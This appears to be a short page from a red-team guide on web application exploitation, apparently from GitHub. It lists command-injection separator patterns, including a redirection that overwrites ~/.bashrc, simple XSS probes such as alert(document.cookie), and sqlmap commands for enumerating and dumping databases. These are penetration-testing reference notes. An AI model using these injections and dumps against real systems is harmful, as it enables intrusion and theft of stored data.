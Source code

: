 ## Information Gathering

**>> [Z_Networks/Web Application](https://github.com/p-arrow/Red-Blue-Guide/blob/main/Z_Networks/Web%20Application.md)**

**>> [1_Reconnaissance/Active/Web Application](https://github.com/p-arrow/RedTeam-Guide/blob/main/1_Reconnaissance/Active/Web%20Application.md)**


<br />

## Exploitation

#### Command Injection into available input masks
- Sequential: `/bin/exploit ; malicious_code`
- Pipeline: `/bin/exploit | malicious_code` (use output of exploit as input for malicious_code)
- Substitution: `/bin/exploit 'malicious_code'` (output of malicious_code as arg to exploit)
- Substitution: `/bin/exploit $(malicious_code)` (output of malicious_code as arg to exploit)
- Redirection: `/bin/exploit > ~/.bashrc` (overwrite bashrc)

#### XSS
- [https://github.com/payloadbox/xss-payload-list](https://github.com/payloadbox/xss-payload-list)
- Quick & Dirty:
     - `<script>alert("XSS LEAK")</script>`
     - `<script>alert(document.cookie)</script>`

#### sqlmap
```
--> HTTP POST request: (after interception) save request to file (Burpsuite)
--> sqlmap -r request -p password (-p = analyze Parameter from POST method)
--> sqlmap -r request -D [database] --tables
--> sqlmap -r request -D [database] -T [table] --dump
--> -p "Parameter" -u "url" --tables
--> -p "Parameter" -D [DBMS] -T [Table] --dump -u "url"
```
